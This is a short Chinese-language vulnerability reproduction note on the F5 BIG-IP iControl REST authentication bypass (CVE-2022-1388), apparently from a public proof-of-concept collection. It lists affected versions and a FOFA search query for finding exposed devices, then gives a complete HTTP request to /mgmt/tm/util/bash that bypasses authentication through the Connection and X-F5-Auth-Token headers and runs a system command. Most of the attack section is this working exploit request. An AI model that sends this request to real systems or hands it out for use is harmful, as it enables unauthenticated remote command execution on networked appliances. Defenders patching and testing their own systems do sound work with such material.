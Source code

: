 # F5 BIG-IP iControl REST身份认证绕过漏洞 CVE-2022-1388

## 漏洞描述

BIG-IP 是 F5 公司的一款应用交付服务是面向以应用为中心的世界先进技术。借助 BIG-IP 应用程序交付控制器保持应用程序正常运行。BIG-IP 本地流量管理器 (LTM) 和 BIG-IP DNS 能够处理应用程序流量并保护基础设施。未经身份验证的攻击者可以通过管理端口或自身 IP 地址对 BIG-IP 系统进行网络访问，执行任意系统命令、创建或删除文件或禁用服务。

## 漏洞影响

```
11.6.1-16.1.2
```

## FOFA

```
icon_hash="-335242539"
```

## 漏洞复现

登录页面

![](./images/202205241448502.png)

发送请求包(Host设为localhost)

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost
Authorization: Basic YWRtaW46
X-F5-Auth-Token: a
Connection: close, X-F5-Auth-Token
Content-Length: 39

{"command":"run","utilCmdArgs":"-c id"}
```

![](./images/202205241449854.png)